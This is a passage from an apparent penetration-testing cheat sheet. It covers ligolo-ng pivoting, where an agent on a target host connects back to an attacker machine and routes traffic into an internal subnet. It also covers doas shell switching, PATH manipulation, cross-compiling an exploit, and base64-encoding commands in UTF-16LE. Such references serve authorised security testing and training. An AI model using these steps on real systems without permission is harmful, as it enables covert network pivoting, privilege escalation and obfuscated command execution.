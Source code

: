 ##### Setup Proxy on Attacker Machine

```c
./proxy -laddr <LHOST>:443 -selfcert
```

##### Setup Agent on Target Machine

```c
./agent -connect <LHOST>:443 -ignore-cert
```

##### Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

#### Linux

##### CentOS

```c
doas -u <USERNAME> /bin/sh
```

##### Environment Variables

```c
export PATH=`pwd`:$PATH
```

##### gcc

```c
gcc (--static) -m32 -Wl,--hash-style=both exploit.c -o exploit
i686-w64-mingw32-gcc -o main32.exe main.c
x86_64-w64-mingw32-gcc -o main64.exe main.c
```

##### getfacl

```c
getfacl <LOCAL_DIRECTORY>
```

##### iconv

```c
echo "<COMMAND>" | iconv -t UTF-16LE | base64 -w 0
echo "<COMMAND>" | iconv -f UTF-8 -t UTF-16LE | base64 -w0
iconv -f ASCII -t UTF-16LE <FILE>.txt | base64 | tr -d "\n"
```
